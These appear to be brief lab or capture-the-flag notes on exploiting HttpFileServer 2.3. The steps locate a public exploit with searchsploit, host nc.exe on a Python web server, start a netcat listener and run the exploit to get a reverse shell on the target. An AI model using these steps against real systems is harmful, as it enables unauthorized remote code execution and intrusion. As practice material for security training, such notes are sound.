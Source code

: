 
searchsploit httpfileserver 2.3
searchsploit -m 23345.py (download exploit)
we need to download nc.exe to our current directory so when we set httpserver it will download it to our target host
- edit script to check how the script works, in our case we need to change the IP(to our local host) and port(1234) in script for reverse shell 
- New terminal: we need to setup webserver httpserver
	- python -m SimpleHTTPServer 80
- new terminal:  we need to run netcat and run our listener 
	- nc -nvlp 1234
- python 23345.py IP(target ip) port(target port) 